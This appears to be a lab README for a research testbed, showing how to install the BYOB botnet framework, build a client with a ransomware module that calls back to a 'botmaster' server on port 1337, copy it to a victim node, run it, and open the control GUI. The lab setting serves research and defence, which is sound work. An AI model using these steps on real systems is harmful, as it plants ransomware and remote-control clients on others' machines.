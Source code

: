 # BYOB

This page describes how we install and use [BYOB](https://github.com/malwaredllc/byob/)

## Prerequisites

Run this script in your XDC:

```shell
cd testbed/
sudo bash xdc/init-xdc-defaults.sh
```

## Installation

Run this ansible playbook in your XDC to download and install BYOB. There are a few assumptions currently:
1. You are using the `testbotenv` topology shown here: https://launch.mod.deterlab.net/project/discern/experiment/testbotenv
2. You only want to install BYOB on the `botmaster` node

To run the playbook, do:
```shell
cd ansible/
ansible-playbook -i inventories/testbotenv.ini playbooks/setup-testbotenv.yml
```

## Example: Server/Client setup


### Building a client

We will use the `botmaster` node to generate a client. The client will have a ransomware
module built into it.

SSH to the botmaster node from your XDC
```shell
ssh botmaster
```

```shell
cd /opt/byob/byob.git/byob
python3 client.py --freeze botmaster.infra 1337 ransom
```

After this completes, you should see a line like the following:
```shell
(24,551,600 bytes saved to file: /opt/byob/byob.git/byob/dist/zGs)
```

We now scp this module to our home directory on the client (for example, `b1`):
```shell
scp dist/zGs b1.infra:
```

Lastly, startup the server
```shell
python3 server.py
```

### Staring the client

SSH from your XDC to the client (for example, `b1`):
```shell
ssh b1
```

Start the module that you scp'd above:
```
./zGs
```

At this point, the server should display a message like:
```
[+] Connection: 172.30.0.11
    Session: 0
    Started: Wed Nov  8 20:34:50 2023
```

## Running the GUI

There is also a GUI option that can be used on the server instead of the server.py command line
tool.  SSH to the `botmaster` node and execute this command and leave the server running:
```shell
cd /opt/byob/byob.git/web-gui
python3 run.py
```

### Accessing the BYOB GUI

Use SSH port forwarding to reach the GUI. From your local workstation:
```shell
mrg xdc ssh <your XDC> -L 8000:botmaster:5000
```

Then, from a web browser on your local machine, navigate to http://localhost:8000/
